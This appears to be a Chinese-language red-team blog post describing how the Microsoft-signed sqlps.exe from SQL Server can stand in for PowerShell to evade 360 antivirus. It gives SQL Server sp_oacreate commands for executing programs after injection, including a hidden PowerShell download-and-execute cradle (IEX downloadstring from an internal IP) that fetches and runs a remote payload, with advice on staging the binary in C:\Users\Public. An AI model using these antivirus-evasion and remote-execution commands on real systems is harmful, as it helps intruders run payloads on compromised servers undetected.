 ```yaml
---
title: sqlps替代powershell
tags: bypass
---
```


## 0x00 前言

sql server 默认安装后，会发现有一个 sqlps.exe：

![image-20220315190210816](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315190210.png)

此文件本身自带微软签名：

![image-20220315190237951](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315190237.png)

sqlps的功能，竟然是！启动 powershell？？？

![image-20220315190322987](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315190323.png)

**而且由于此文件无依赖，因此可以单独取出在无sql server机器上运行**。

## 0x01 sqlps 上线

之前使用 powershell 上线，360 必拦截：

![image-20220315191524076](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315191524.png)

使用sqlps，360无反应且能正常上线：

![image-20220315191648516](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315191648.png)



![image-20220315191725621](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315191725.png)

## 0x02 sp_oacreate

sql server 注入后提权的方法比较多，但是被杀软拦截的也比较厉害，xp_cmdshell会被拦，sp_oacreate也会被拦。

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:/windows/system32/cmd.exe'
```

![image-20220315192329929](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315192329.png)

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Users\Public\SQLPS.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(''http://192.168.80.138:80/a''))"'
```

![image-20220315193426383](https://gitee.com/tboom_is_here/pic/raw/master/2021-10-21/20220315193426.png)

成功上线，弊端是 sql server 默认为service权限，因此对很多目录包括sql server 默认目录都无法执行该程序，因此要提前上传sqlps至C:\Users\Public目录。
